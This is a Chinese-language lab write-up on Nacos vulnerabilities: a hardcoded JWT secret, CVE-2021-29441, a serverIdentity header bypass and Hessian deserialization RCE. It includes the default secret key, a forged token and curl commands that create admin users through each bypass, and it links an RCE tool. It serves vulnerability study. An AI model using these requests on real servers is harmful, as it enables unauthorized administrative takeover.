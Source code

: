 

# nacos 相关漏洞学习 - 先知社区

nacos 相关漏洞学习

- - -

# 目录

JWT\_Secret\_Key 硬编码导致的认证绕过漏洞 (**QVD-2023-6271**)  
不当处理 User-Agent 导致的认证绕过漏洞 (**CVE-2021-29441**)  
identity key value 硬编码权限绕过  
Hessian 反序列化 RCE

## 环境搭建

为了方便直接用 vulhub  
版本：NACOS v1.4.0

```plain
cd vulhub-master\nacos\CVE-2021-29441 
docker compose up -d
docker compose restart nacos
```

某些情况下 nacos 服务会启动失败（无法连接数据库导致），可以重启 nacos 服务或者重启所有服务 访问[http://127.0.0.1:8848/nacos/#/login](http://127.0.0.1:8848/nacos/#/login)

[![](assets/1703209824-2d8a973e407cd505da457773ff138e04.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190451-c330f3ce-9ff0-1.png)

默认账号密码都是 nacos

[![](assets/1703209824-49c255f46ed8640299b5674909229ad1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190521-d53a93a4-9ff0-1.png)

## JWT\_Secret\_Key 硬编码身份验证绕过

尽管设置了 `NACOS_AUTH_ENABLE=true` 和自定义的 `NACOS_AUTH_TOKEN`，自定义的 token 并未生效，用户仍需使用默认的 `secret.key` 来生成可访问 API 接口的 `access_token`。预期是使用自定义的 `NACOS_AUTH_TOKEN` 来生成并使用 `access_token`，但实际上仍需要依赖默认的 `secret.key`

在 application.properties 中可以看到  
secret.key 的值默认为 SecretKey012345678901234567890123456789012345678901234567890123456789  
[![](assets/1703209824-5dbc205406a2b9b90df358f771e2922f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221205010-799c54ce-9fff-1.png)

[![](assets/1703209824-0201955bf5a50d4eb7f31298131a205e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190617-f6eee5cc-9ff0-1.png)

在得到 key 的值后我们可以任意伪造 jwt

[![](assets/1703209824-0c761f4933ce1c3a6db69ff39e710073.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190624-fafdbf94-9ff0-1.png)

`curl -XPOST 'http://ip:8848/nacos/v1/auth/users/?accessToken=eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6IjI2MTYyMzkwMjIifQ.5aXePQdHbh9hKNoj_qqCC4x6PzbXmpy-vYQHhi0PdjVHyDJ40Ge6CVz6AWuV1UHa4H8-A-LXMOqQGSXjrsJ8HQ&username=admin&password=123456'`  
访问接口 创建一个 admin 用户 密码 123456

## 不当处理 User-Agent 导致的认证绕过漏洞 (CVE-2021-29441)

版本：<=Nacos 1.4.1 配置为使用身份验证（-Dnacos.core.auth.enabled=true）  
nacos 在进行认证授权操作时，会判断请求的 user-agent 是否为”Nacos-Server”，如果是的话则不进行任何认证 可调用敏感接口

list 用户接口  
[http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1](http://ip:8848/nacos/v1/auth/users?pageNo=1&pageSize=1)  
获取当前用户列表以及密码  
直接访问会 403

[![](assets/1703209824-6c5b4ac19b3d0a30a823a79e382f4ad8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190634-00b7718c-9ff1-1.png)

将 user-agent 头修改为 Nacos-Server 即可绕过

[![](assets/1703209824-051257fdbc4fc6d9f0c9cea723720638.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190640-04a43d66-9ff1-1.png)

添加用户接口：  
POST  
/nacos/v1/auth/users?username=admin&password=123456  
User-Agent: Nacos-Server  
pageNo=1&pageSize=9

[![](assets/1703209824-0e6699861cdef5d29a1d3fc3dc172d5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190648-08f10340-9ff1-1.png)

创建登录成功

## identity key value 硬编码权限绕过

影响版本：Nacos <= 2.2.0 nacos.core.auth.enabled=true  
当请求头携带"serverIdentity:security"时 可绕过权限认证

[![](assets/1703209824-0ee9151d9e43c5b3368b3cba2de7041d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190654-0cec4c34-9ff1-1.png)

[![](assets/1703209824-46808b6c57397104952697ddaa9568ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190704-12fbd482-9ff1-1.png)

[https://github.com/alibaba/nacos/blob/d40190ee24af94fa87414b88239c47693c524333/core/src/main/java/com/alibaba/nacos/core/auth/AuthFilter.java#L65](https://github.com/alibaba/nacos/blob/d40190ee24af94fa87414b88239c47693c524333/core/src/main/java/com/alibaba/nacos/core/auth/AuthFilter.java#L65)

检查`authConfigs`对象中是否设置了`serverIdentityKey`和`serverIdentityValue` 如果这两个配置项都非空，代码会从 HTTP 请求的头部获取服务器身份信息 再对比 header 中 value 的值和配置文件中 nacos.core.auth.server.identity.value 的值是否相同，如果相同则通过权限校验

利用：  
添加用户接口  
`curl -XPOST 'http://ip:8848/nacos/v1/auth/users?username=admin2&password=123456' -H "serverIdentity: security"`

## Hessian 反序列化 RCE

1.4.0 <= Nacos < 1.4.6 2.0.0 <= Nacos < 2.2.3  
Nacos 默认的 7848 端口是用于 Nacos 集群间 Raft 协议的通信，该端口的服务在处理部分 Jraft 请求时会使用 Hessian 进行反序列化

[![](assets/1703209824-8da499438e2fe0e18b9f519192034662.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221190716-19db83ec-9ff1-1.png)

[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)  
直接用大佬的工具一把嗦
